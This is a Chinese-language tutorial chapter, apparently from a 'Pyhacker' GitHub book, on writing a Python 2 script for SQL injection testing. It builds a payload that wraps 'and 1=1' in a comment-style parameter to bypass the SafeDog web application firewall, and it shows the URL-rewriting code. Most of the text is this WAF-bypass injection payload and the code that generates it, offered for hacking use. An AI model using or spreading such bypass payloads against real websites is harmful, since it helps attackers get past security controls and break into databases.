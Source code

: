 ## Pyhacker 之 Sql脚本编写

**00x1：**  

需要用到的模块如下：  

import requests  

import re  

**00x2：**  

编写Sql判断  

首先我们需要一个payload，最好可以bypass，这样方便测试  

?a=/*&id=1%20and%201=1%23*/  

这里以bypass 安全狗为例  

相关文章：http://www.hackxc.cc/hkjs/301.html

```
url = 'http://127.0.0.1/index.php?id=1'
r = r'\?(.*)'
id = re.findall(r,url)
id = id[0]
payload = "?a=/*&{}%20and%201=1%23*/".format(id)
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/1.png)  

Ok，可以正常输出  

再匹配前面的url + payload完美bypass  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/2.png)  

整理一下代码：  

```
def url_bypass(url):
    r = r'\?(.*)'
    id = re.findall(r,url)
    id = id[0]
    payload = "?a=/*&{}%20and%201=1%23*/".format(id)

    urlr = '(.*)\?%s'%id
    url_ = re.findall(urlr,url)
    url_=url_[0]
    print url_+payload

url = 'http://127.0.0.1/index.php?id=1'
url_bypass(url)
```  

存放到列表当中，等下我们直接遍历即可  

